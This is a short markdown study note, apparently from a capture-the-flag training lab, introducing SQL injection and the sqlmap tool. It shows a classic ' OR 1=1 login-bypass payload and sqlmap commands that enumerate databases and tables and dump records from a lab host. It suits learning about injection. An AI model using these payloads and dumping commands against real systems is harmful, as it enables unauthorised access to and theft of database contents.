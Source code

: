 # SQLMap: The Basics

## Introduction
SQL injection is a common vulnerability where attackers manipulate SQL queries to gain unauthorized access to databases.

## How Websites Interact with Databases
- Websites store and retrieve data using **Database Management Systems (DBMS)** like MySQL, PostgreSQL, and Microsoft SQL Server.
- Structured Query Language (**SQL**) is used to interact with databases.
- User inputs (e.g., login credentials, search queries) are sent to the database via SQL queries.

## Example of SQL Injection
### Normal SQL Query for Authentication:
```sql
SELECT * FROM users WHERE username = 'John' AND password = 'Un@detectable444';
```

### Injected SQL Query to Bypass Authentication:
```sql
SELECT * FROM users WHERE username = 'John' AND password = 'abc' OR 1=1;-- -';
```
- The condition `1=1` always evaluates to **true**, granting unauthorized access.

## SQLMap: Automated SQL Injection Tool
### Usage & Commands

#### Identify a vulnerable URL:
```sh
sqlmap -u http://sqlmaptesting.thm/search/cat=1
```

#### Extract database names:
```sh
sqlmap -u http://sqlmaptesting.thm/search/cat=1 --dbs
```

#### Extract table names from a specific database:
```sh
sqlmap -u http://sqlmaptesting.thm/search/cat=1 -D users --tables
```

#### Extract records from a specific table:
```sh
sqlmap -u http://sqlmaptesting.thm/search/cat=1 -D users -T thomas --dump
```

#### Testing an intercepted POST request:
```sh
sqlmap -r intercepted_request.txt
```

## Summary
- **SQL Injection** is a serious security risk.
- **Improper input validation** allows attackers to manipulate SQL queries.
- **SQLMap** automates the process of finding and exploiting SQL injection vulnerabilities.
